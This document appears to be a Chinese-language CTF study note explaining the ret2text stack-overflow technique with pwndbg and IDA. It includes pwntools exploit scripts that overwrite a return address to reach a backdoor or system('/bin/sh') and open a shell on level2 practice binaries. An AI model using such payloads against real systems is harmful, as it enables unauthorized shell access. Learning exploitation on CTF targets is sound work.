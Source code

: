 ## 总体流程概述
我们的 `ret2text` 漏洞大体上可以分为我们的两个部分，第一个部分是构造我们的垃圾数据，第二个部分是跳转到我们的 `shellcode`,因此，我们的 `ret2text`,也可以理解是一种 `ret2shellcode` 的漏洞。

## 构造垃圾数据：
第一步：找到我们溢出的目标变量距离我们的栈底指针的位置差是多少，我们记为 $dx_{1}$
第二步：我们实际要构造的长度，就是我们的 $dx_{1}+4(32位),8(64位)$,也就是说，我们的最终构造出来的数据的长度是我们的 $dx_{1}+4(32位)，8(64位)$。这里是因为，我们要最后修改的是我们的返回地址。

具体操作：
第一步：用我们的 IDA 或者我们的 pwndbg 来进行我们的反汇编，我们这里采用我们的 pwndbg 演示
![[Pasted image 20231122223041.png]]

第二步：我们进入后，直接运行我们的程序，就是 run
![[Pasted image 20231122223116.png]]

然后我们就能得到下面的界面：
![[Pasted image 20231122223325.png]]
![[Pasted image 20231122223137.png]]

我们黄色箭头指向的地方就是我们正在执行的指令，`register` 界面存储了我们当前运行位置寄存器的值，其中，我们的 `EIP` 就是我们**当前运行程序的位置**，`ESP` 和 `EBP` 表示我们的栈的地址，两个相邻很近，但是值都很大，因为他们在我们**程序的高位**

`DISASM` 表示我们当前运行程序的大致位置，

`stack` 表示我们函数栈的位置，注意，在 GDB 中，函数的栈是反着来的，

`BACKTRACE` 表示我们的函数调用流程

第二步：接下来，我们输入 `n` 进行步过，找到我们目标函数的位置。我们再使用 `s` 执行我们的单个函数
![[Pasted image 20231122223713.png]]

第三步：对于我们的 `gets` 漏洞，我们需要计算我们需要填充多少空白数据，填充什么关键数据，在这里，我们的空白数据需要用我们 `ebp` 高一位就是我们的**目标攻击对象**，我们于是就需要 `27c-268`,即 20 个字节的内容，然后我们的最后位置填写我们的地址
![[Pasted image 20231122224118.png]]
或者，我们也可以在 IDA 中直接得到：
![[Pasted image 20231122225001.png]]
注意：**在 IDA 中得到的要额外添加一个字节 的数据，来填充我们的 ebp**

## 构造shellcode
### 一、shellcode 已经给出

找到我们 C 程序中的后门函数，把我们的返回地址改为我们的后门函数所在的地址，然后我们就可以直接用我们的 shell 了，
![[Pasted image 20231122224529.png]]

找到目的地址：我们在 IDA 中双击目标函数
![[Pasted image 20231122225318.png]]
然后我们的起始地址就是我们的 `0x8048522`

我们就可以构造我们的 `payload` 如下：
```python
from pwn import *
io=remote("114.514.1.19",1919)
io.recvline();
payload=b'a'*20+p32(addr)
```
![[Pasted image 20231122225420.png]]

#### 特殊情况：
如果我们确认我们的 payload 正确的情况下，没有得到想要的结果，那么我们这个时候，需要去考虑我们是不是我们的堆栈没有平衡，这个时候，我们就需要参考我们的[[栈对齐]]的方法来修改



### 有 system 函数, 但是缺少参数
这个时候，我们的操作就应该是：直接找到我们 `system` **函数的对应地址**是多少，这一步我们可以通过我们的 ida 或者是或者是我们的 `elf.symbols["system"]` 来找到我们的结果。

之后，我们再去**修改我们 system 函数的对应参数**，我们这里，我们需要根据我们的对应的操作系统的格式去进行相关的操作:
如果是 64 位，我们就去修改我们的 `rdi` 的参数，如果是我们的 32 位，我们就直接在我们的栈上写我们的地址即可。
**这里，我们还需要注意一个细节，就是我们的寄存器内容到底是放到哪一个里面，需要根据我们实际得到的 pop 指令指令来决定。**


六十四位：
```python
from pwn import *

context(log_level = 'debug')

proc_name = './level2_x64'
p =process(proc_name)
p = remote('node3.buuoj.cn', 25838)
elf = ELF(proc_name)
system_addr = elf.sym['system']
bin_sh_str = 0x600a90
pop_rbi_ret = 0x4006b3
payload = 'a'.encode() * (0x80 + 8) + p64(pop_rbi_ret) + p64(bin_sh_str) + p64(system_addr)
p.sendline(payload)
p.interactive()

```
三十二位：
```cpp
from pwn import *
io = process("./level2")
# io = remote("node4.buuoj.cn",26959)
elf = ELF("./level2")
system_addr = elf.symbols["system"]
bin_sh_addr = 0x0804a024
payload = b"a"*(0x88+0x04) + p32(system_addr) + p32(0) + p32(bin_sh_addr)
io.sendlineafter("Input:\n",payload)
io.interactive()

```